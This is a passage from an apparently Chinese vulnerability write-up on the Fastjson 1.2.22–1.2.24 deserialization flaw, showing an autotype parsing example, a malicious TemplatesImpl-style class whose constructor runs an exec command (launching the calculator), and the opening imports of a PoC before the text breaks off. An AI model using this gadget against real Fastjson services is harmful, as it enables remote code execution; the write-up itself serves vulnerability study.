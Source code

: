     public class learnFJ {
        public static void main(String args[]) {
            String text = "{\"@type\":\"ka1n4t.test.Student\",\"name\":\"ZhangSan\",\"age\":123}";
            Student obj1 = JSON.parseObject(text, Student.class, Feature.SupportNonPublicField);
            System.out.println(obj1.getName());
        }
    }

结果：

![](./resource/Fastjson1.2.22-1.2.24反序列化漏洞/media/rId26.png)

### 0x02 原理分析

#### 分析POC

先看一下用于反序列化的恶意类evilClass1.java:

    package ka1n4t.poc;

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

    import java.io.IOException;

    public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {


        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
        }


        public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

        }

        public evilClass1() throws IOException {
            Runtime.getRuntime().exec("calc");
        }

        public static void main(String[] args) throws IOException {
            evilClass1 helloworld = new evilClass1();
        }
    }

其中的构造方法是用exec弹个计算器。看下poc，vulApp1.java：

    package ka1n4t.poc;

    import org.apache.commons.io.IOUtils;
    import org.apache.commons.codec.binary.Base64;
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.Feature;
    import com.alibaba.fastjson.parser.ParserConfig;
    import java.io.ByteArrayOutputStream;
    import java.io.File;
    import java.io.FileInputStream;
    import java.io.IOException;
